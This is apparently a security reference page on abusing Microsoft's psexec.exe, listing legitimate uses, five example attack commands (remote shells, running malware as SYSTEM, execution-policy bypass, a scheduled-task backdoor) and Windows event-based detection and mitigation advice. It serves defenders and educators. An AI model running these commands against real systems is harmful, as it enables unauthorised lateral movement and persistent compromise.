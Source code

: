 # psexec.exe
## What is it?
*```psexec.exe``` is a command-line tool from Microsoft's **Sysinternals Suite** that allows remote command execution on Windows systems. It enables administrators to run processes on remote machines without needing to log in physically or interact with the desktop environment.*

*Due to its legitimate use for remote system management, attackers frequently abuse ```psexec.exe``` for **lateral movement**, **remote code execution**, and **privilege escalation** while evading detection.*

## Legitimate Usage
- **Remote System Administration** → Execute commands on remote machines without interactive login.
- **Software Deployment** → Install applications and updates across multiple systems.
- **Troubleshooting & Diagnostics** → Run commands on remote systems for analysis and issue resolution.
- **Automated Task Execution** → Execute scheduled tasks across networked systems.

## How to abuse it
- **Lateral Movement** → Attackers use ```psexec.exe``` to execute commands or deploy malware on other machines in the network.
- **Privilege Escalation** → If executed with SYSTEM privileges, ```psexec.exe``` allows attackers to run commands with **elevated permissions**.
- **Remote Code Execution** → Attackers can run scripts, drop payloads, or manipulate system configurations remotely.
- **Credential Theft** → ```psexec.exe``` often requires valid credentials, which attackers can leverage for further network access.
- **EDR & AV Evasion** → Since ```psexec.exe``` is a **trusted Microsoft tool**, some security solutions overlook its execution.

## Example attacks
### 1. Lateral Movement via Remote Command Execution
*Attackers can execute commands on remote machines using valid credentials.*

**Execute a Command on a Remote System**

```
psexec \192.168.1.50 -u admin -p Password123 cmd.exe
```

**Effect:**
- **Opens a remote command shell** on **192.168.1.50** using **admin credentials**.
- **Runs commands interactively** as if the attacker were physically present.

### 2. Deploying Malware via Remote Execution
*Attackers can push and execute malware on remote systems.*

**Copy and Execute a Malicious Payload**

```
psexec \victimPC -u admin -p P@ssw0rd -s -d -i 1 C:\Temp\malware.exe
```

**Effect:**
- **Uploads malware.exe** to the target machine.
- **Runs it with SYSTEM privileges** silently in the background.

### 3. Remote PowerShell Execution via psexec
*Attackers can leverage PowerShell for stealthier remote execution.*

**Execute PowerShell on a Target System**

```
psexec \192.168.1.50 -u admin -p SecretPass -s powershell -exec bypass -File C:\attack.ps1
```

**Effect:**
- **Runs a PowerShell script** on the target with SYSTEM privileges.
- **Bypasses script execution policies** for stealth.

### 4. Gaining SYSTEM Privileges via psexec
*Attackers can execute commands as SYSTEM, gaining full control over the system.*

**Launch SYSTEM Shell**

```
psexec -s -i cmd.exe
```

**Effect:**
- **Opens a SYSTEM-level command prompt**, allowing unrestricted control over the machine.

### 5. Persistent Backdoor via psexec
*Attackers can set up a scheduled task to maintain remote access.*

**Create a Scheduled Task for Persistence**

```
psexec \targetPC -u admin -p adminpass schtasks /create /tn "Backdoor" /tr "C:\Temp\malware.exe" /sc onstart /ru SYSTEM
```

**Effect:**
- **Ensures malware execution** every time the system starts.

# Detection & Mitigation
## Detection Methods
**Monitor for Suspicious psexec Execution**
- **Event ID 4688 (Process Creation)** → Look for psexec-related processes like ```psexesvc.exe```.
- **Event ID 5145 (SMB File Access)** → Detect psexec's use of SMB to push files.

**Look for Remote Command Execution**
- **Event ID 4624 (Logon Success)** → Detect unexpected remote logins using administrator credentials.
- **Event ID 7045 (Service Creation)** → psexec creates a temporary service (```PSEXESVC```), which can indicate abuse.

**Detect Lateral Movement**
- **Unusual Process Execution Across Multiple Systems** → Attackers using psexec often target several hosts in a short time.

## Mitigation Strategies
- **Restrict psexec Execution** → Block execution for non-admin users via Group Policy or AppLocker.
- **Monitor SMB & Admin Shares** → psexec relies on SMB for remote execution; restrict access where possible.
- **Enable Windows Firewall Rules** → Block inbound connections to **Admin$** and **C$** shares from untrusted sources.
- **Use PowerShell Remoting Instead** → Replace psexec with more secure remote management alternatives like **WinRM**.
